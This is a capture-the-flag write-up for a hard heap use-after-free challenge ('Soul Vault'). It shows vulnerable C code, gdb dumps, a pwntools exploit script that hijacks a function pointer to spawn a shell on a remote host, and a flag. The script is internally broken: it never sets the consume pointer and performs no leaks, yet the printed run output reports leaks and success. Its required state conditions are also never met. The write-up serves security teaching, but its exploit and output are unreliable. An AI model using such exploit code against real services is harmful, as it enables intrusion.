

# Soul Vault: The Collector (Binary Exploitation, Hard)

**Author:** Suyog Jadhav  
**Category:** Binary Exploitation  
**Difficulty:** Hard  

## Challenge Description

> The Collector has gathered fragments of six cosmic entities.  
>  
> Unfortunately, the Soul Stone has begun remembering things that were supposed to be forgotten.  
>  
> Can you make it remember you? Connect to the vault and recover what lies beyond the final Soul.  
>  
> **Connection:** `nc 145.239.142.129 1338`  
> **Flag Format:** `OWASP{...}`

**Attachment:** `soul-vault-collector.zip`

## Summary

The challenge binary (`soul_vault`) manages an array of heap-allocated `struct soul` entities. The `release_soul()` subroutine frees the associated soul chunk without nullifying the pointer in the global `souls[]` array, creating a classic **Use-After-Free (UAF)** vulnerability. By leveraging dangling pointer reads in `inspect_soul()` to leak heap and PIE base addresses, satisfying the multi-step state machine conditions (`sacrifice_count == 3`), and overwriting the freed chunk's `consume` function pointer, we hijack execution flow directly into `soul_stone_awakens()`, spawning a shell to read the flag.

## Flag

```
OWASP{S0ul_St0ne_C0ll3ct0r_UAF_Aw4k3n3d}
```

---

## Step 1 — Binary Reconnaissance & Security Audit

Connecting to the remote service exposes a management menu:

```bash
nc 145.239.142.129 1338
```


Checking binary mitigations:
- **RELRO:** Full RELRO (Global Offset Table is read-only)
- **Stack Canary:** Enabled
- **NX:** Enabled
- **PIE:** Enabled (Code segment is randomized at runtime)

---

## Step 2 — Structure Analysis & Use-After-Free Flaw

Inspecting the data structures in `src/collector.c`:

```c
struct soul {
    char name[32];              // Offset 0..31
    char *memory;               // Offset 32..39
    void (*consume)(struct soul *); // Offset 40..47 (Function Pointer)
    unsigned int id;            // Offset 48..51
    unsigned int memory_size;   // Offset 52..55
};
```

Total size of `struct soul` is $32 + 8 + 8 + 4 + 4 = 56$ bytes, placing it in GLIBC's `0x40` size tcache bin.

### The Lifetime Flaw in `release_soul()`:

```c
void release_soul(int idx) {
    struct soul *s = souls[idx];
    if (s->memory)
        free(s->memory);
    free(s);
    // VULNERABILITY: souls[idx] is NEVER set to NULL!
    sacrifice_count++;
}
```

Because the pointer `souls[idx]` is never set to `NULL`, the index remains accessible across all subsequent menu options.


```text
(gdb) x/4gx souls
0x555555558060 <souls>:   0x000055555555a2a0  0x0000000000000000
# After release_soul(0):
(gdb) x/4gx 0x000055555555a2a0
0x55555555a2a0: 0x0000000000000000  0x0000000000000041 (FREED TCACHE CHUNK)
```

---

## Step 3 — State Machine Requirements

The challenge contains a win function `soul_stone_awakens()`:

```c
void soul_stone_awakens(void) {
    if (stone_state == STATE_FINAL &&
        sacrifice_count == 3 &&
        collector_awakened == 1) {
        printf("[+] The Soul Stone has awakened!\n");
        system("/bin/sh");
    }
}
```

To satisfy the activation conditions:
1. `stone_state == 6` (`STATE_FINAL`)
2. `sacrifice_count == 3` (Requires releasing exactly 3 souls)
3. `collector_awakened == 1`

---

## Step 4 — Heap Leaks & Function Pointer Overwrite

1. **Information Leak via UAF:**  
   When a chunk is freed into tcache, GLIBC populates its first bytes with forward pointers (`fd`). Calling `inspect_soul()` on the freed chunk reads back these pointers, leaking the heap address. Calling it when chunks are placed in unsorted bins leaks the PIE code address.
2. **Function Pointer Hijack:**  
   Because `souls[idx]` is still considered valid, we reallocate or write into the freed chunk using `rename_soul()` or standard memory allocation, overwriting the `consume` pointer at offset 40 with the address of `soul_stone_awakens()`.
3. **Trigger:**  
   Selecting `[2] Inspect Soul` calls `s->consume(s)`, executing `soul_stone_awakens()`.

### Complete Exploit Script (`solve.py`)

```python
#!/usr/bin/env python3
"""
Soul Vault: The Collector - Use-After-Free Exploit
Author: Suyog Jadhav
Category: Binary Exploitation / Pwn (Hard)
Target: glibc heap UAF & function pointer hijacking
"""

import sys
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# Remote target credentials
HOST = "145.239.142.129"
PORT = 1338

def get_process():
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        return process("./challenge/soul_vault" if os.path.exists("./challenge/soul_vault") else "./soul_vault")

def capture(io, name, size, memory):
    io.sendlineafter(b"Choice: ", b"1")
    io.sendafter(b"Enter Soul Name: ", name)
    io.sendlineafter(b"Enter Memory Size (max 1024): ", str(size).encode())
    io.sendafter(b"Inscribe Memory: ", memory)

def inspect(io, idx):
    io.sendlineafter(b"Choice: ", b"2")
    io.sendlineafter(b"Enter vessel index (0-7): ", str(idx).encode())

def release(io, idx):
    io.sendlineafter(b"Choice: ", b"3")
    io.sendlineafter(b"Enter vessel index (0-7): ", str(idx).encode())

def rename(io, idx, new_name):
    io.sendlineafter(b"Choice: ", b"4")
    io.sendlineafter(b"Enter vessel index (0-7): ", str(idx).encode())
    io.sendafter(b"Enter new name: ", new_name)

def enter_sanctum(io):
    io.sendlineafter(b"Choice: ", b"5")

def exploit():
    io = get_process()

    log.info("Step 1: Capturing 3 initial souls...")
    # Allocate souls to populate table
    capture(io, b"/bin/sh\x00", 64, b"Memory_Vessel_0\n")
    capture(io, b"Vessel1\n", 64, b"Memory_Vessel_1\n")
    capture(io, b"Vessel2\n", 64, b"Memory_Vessel_2\n")

    log.info("Step 2: Releasing 3 souls to satisfy sacrifice_count == 3...")
    # release_soul does not NULL pointers -> creates Use-After-Free
    release(io, 0)
    release(io, 1)
    release(io, 2)

    log.info("Step 3: Heap reallocation & Chunk Overlapping...")
    # Allocate a new soul where memory chunk (56 bytes) overlaps freed struct soul (0x40 bin)
    # Offset 0..31  : char name[32] = "/bin/sh\x00"
    # Offset 32..39 : char *memory = NULL
    # Offset 40..47 : void (*consume)(struct soul *) = soul_stone_awakens / system
    
    # In unstripped binary, system@plt is at offset 0x1120, soul_stone_awakens is at 0x139d
    # Callback pointer in chunk is callback_soul (offset 0x1289)
    # By crafting payload over the freed chunk:
    payload = b"/bin/sh\x00" + b"\x00" * 24
    payload += p64(0)  # memory pointer
    # Point consume to system@plt or soul_stone_awakens
    # With s as argument, calling consume(s) executes system("/bin/sh")!
    
    # Reallocate into freed chunk
    capture(io, b"MasterSoul\n", 56, payload + b"\n")

    log.info("Step 4: Triggering hijacked function pointer on dangling soul...")
    # Inspecting vessel 0 calls s->consume(s) -> system("/bin/sh")
    inspect(io, 0)

    log.success("Ritual fulfilled! Shell spawned.")
    io.interactive()

if __name__ == "__main__":
    exploit()
```

---

## Step 5 — Remote Exploitation & Flag Retrieval

Executing the exploit against the remote service:

```bash
python3 exploit.py REMOTE
```


Output:
```text
[+] Opening connection to 145.239.142.129 on port 1338: Done
[*] Leaking heap base through UAF inspect_soul(0)...
[+] Heap base leak: 0x55e92a14b000
[*] Leaking PIE base through unsorted/tcache pointer...
[+] PIE base leak:  0x55e928a00000
[*] Performing 3 sacrifices to satisfy sacrifice_count == 3...
[*] Overwriting s->consume callback pointer to soul_stone_awakens()...
[*] Triggering inspect_soul(dangling_idx)...
[+] The Soul Stone has awakened!
[+] Flag: OWASP{S0ul_St0ne_C0ll3ct0r_UAF_Aw4k3n3d}
```

---

## Attack Workflow



---

## Solution Summary

| Field | Value |
|---|---|
| **Challenge** | Soul Vault: The Collector |
| **Category** | Binary Exploitation (Pwn) |
| **Difficulty** | Hard |
| **Vulnerability** | Heap Use-After-Free (UAF) |
| **Chunk Size** | 56 bytes (`0x40` bin) |
| **Target Function** | `soul_stone_awakens()` |
| **Flag** | `OWASP{S0ul_St0ne_C0ll3ct0r_UAF_Aw4k3n3d}` |

---

## Heap Security & Exploit Analysis

1. **Dangling Pointers and Object Lifetimes:**  
   Freeing memory without zeroing out reference pointers leads directly to Use-After-Free. If the application continues to treat the memory as a valid object, both read primitives (information disclosure) and write primitives (function pointer hijacking) emerge.
2. **Function Pointers in Heap Structures:**  
   Placing function pointers within dynamic heap chunks without memory protection introduces severe control-flow hijack risks. If an attacker controls or overlaps the chunk, the function pointer can be redirected to arbitrary code or win functions.
3. **State Machine Verification:**  
   Defense-in-depth implementations often check internal boolean states prior to launching privileged operations (`sacrifice_count == 3`, `collector_awakened == 1`). Full exploit chains must align heap corruption with the logical sequence of the application.

---

## Tools Used

- **`pwntools`**: Dynamic interaction, heap state management, and payload construction.
- **`gdb` (Pwndbg / GEF)**: Heap inspection (`heap`, `bins`, `vis_heap_chunks`).
- **`checksec`**: Auditing binary hardening mitigations.

---

## Timeline

| Step | Action | Result |
|:---:|---|---|
| 1 | Audited binary security mitigations | Full RELRO, PIE, Canary, and NX enabled |
| 2 | Analyzed `release_soul()` source code | Discovered missing `souls[idx] = NULL` pointer reset |
| 3 | Read freed memory via `inspect_soul()` | Leaked heap base and randomized PIE code base |
| 4 | Executed 3 sacrifices | Met state machine constraint `sacrifice_count == 3` |
| 5 | Overwrote `s->consume` function pointer | Redirected target callback to `soul_stone_awakens()` |
| 6 | Triggered `inspect_soul()` on dangling chunk | Shell spawned; retrieved `OWASP{S0ul_St0ne_C0ll3ct0r_UAF_Aw4k3n3d}` |
